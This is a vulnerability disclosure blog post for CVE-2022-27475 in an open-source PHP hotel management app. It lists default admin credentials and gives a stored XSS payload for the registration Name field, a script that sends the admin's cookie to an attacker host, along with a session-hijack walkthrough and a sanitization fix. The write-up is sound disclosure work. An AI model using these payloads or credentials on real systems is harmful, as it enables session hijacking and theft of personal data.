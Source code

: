 ```yaml
---
layout: post
title: CVE-2022-27475
subtitle: Finding Small Bugs in Github
thumbnail-img: /assets/img/CVE-2022-27475/bug.png
tags: [CVE]
---
```


# CVE-2022-27475

While looking at some open source projects on github I came across [this](https://github.com/tramyardg/hotel-mgmt-system) hotel management software. The webapp is used to create reservations for a hotel. I decided to downlaod it and play around with the app and my findings are below

# Default Passwords in admin.json

The admin.json file is readable by any user. If these account passwords are not changed anyone can get access to the admin console

![CVE-2022-27475](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/CVE-2022-27475/f6f56174ff3d4c5d8746d627bf4b652c.png)

`martha@hotmail.com:1324`
`admin@gmail.com:admin123`
`admin@admin.com:admin123`

# Stored XSS

The `Name` field in `/register.php` is vulnerable to a stored XSS vulnerbility. When a user imputs malicious code such as `<script>new Image().src="http://KALI/cookie.php?c="+document.cookie;</script>` into the `Name` field whenever the admin goes to `/admin.php` the malicous Java Script code will be ran and the admins cookie will be sent to the attacker. The attacker can then use this cookie to gain access to `/admin.php` allowing him to get PII such as full names, phone numbers, and email addresse. This PII can then be used for other attacks

## POC

We can create a new user with the malicious XSS as the `Name`

![CVE-2022-27475](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/CVE-2022-27475/675ecd9086dd474197606b9f02a09dee.png)

When an Admin logs into the admin page they will not see our XSS but our payload did execute
![CVE-2022-27475](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/CVE-2022-27475/6b2db54ce9234750adfb009403e6824b.png)

![CVE-2022-27475](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/CVE-2022-27475/19e7d108edce46bcbd8480dd3ef8837d.png)

Back on kali we can see admins cookie

![CVE-2022-27475](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/CVE-2022-27475/9acef946a430450483a82f26f0db6ada.png)

Signed in as another user we can edit our cookie to be the admins

![CVE-2022-27475](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/CVE-2022-27475/4af5a4ee4a5a47b5b99976ec01877958.png)

![CVE-2022-27475](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/CVE-2022-27475/575d61ec0cd84fe6baad0d3fdffb59ac.png)

Now going to `/admin.php` we can view bookings as another user.

![CVE-2022-27475](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/CVE-2022-27475/cc9c986945504c1ea24ea95c18d06375.png)

# Fix

To fix this add the following code at the top of `/app/process_registration.php`

```
function sanitize_xss($value) {
    return htmlspecialchars(strip_tags($value));
}
```

Then Around line 30 make the following change
`$customer->setFullName(sanitize_xss($_POST["fullName"]));`

This will sanitize the input

![CVE-2022-27475](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/CVE-2022-27475/06132c248d4a4f29968190785c928a65.png)
